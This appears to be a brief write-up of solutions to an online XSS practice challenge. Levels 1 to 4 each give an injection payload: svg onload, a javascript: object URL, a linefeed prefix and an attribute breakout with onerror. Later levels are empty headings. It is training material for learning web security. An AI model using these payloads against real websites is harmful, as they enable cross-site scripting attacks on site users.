 # XSS Challanges from https://www.zixem.altervista.org/XSS

## Level 1

```html
<svg/onload=alert()>
```
## Level 2

```html
<object data="javascRipt:alert()">
```

## Level 3

- %0A (LF = linefeed)

```html
%0A<svg/onload=alert()>
```


## Level 4

- Inline html

```html
x' onerror=javascript:alert()//
```

## Level 5

## Level 6

## Level 7

## Level 8

## Level 9

## Level 10
